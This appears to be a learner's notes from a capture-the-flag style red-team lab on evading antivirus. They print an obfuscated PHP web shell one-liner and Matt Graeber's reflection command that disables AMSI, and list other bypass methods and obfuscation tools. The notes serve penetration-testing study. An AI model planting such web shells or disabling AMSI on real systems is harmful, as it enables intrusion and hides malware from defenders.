 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To Begin with Obfuscation will focus on manual obfuscation more as it's more reliable compared to automated obfuscators.

To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick


Automated obfuscators like Invoke-Obfuscation and ISE-Steroids to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.


When creating a token command, you will need to be careful not to obfuscate the payload too much and exceed the 8191 character limit in a Windows command prompt.

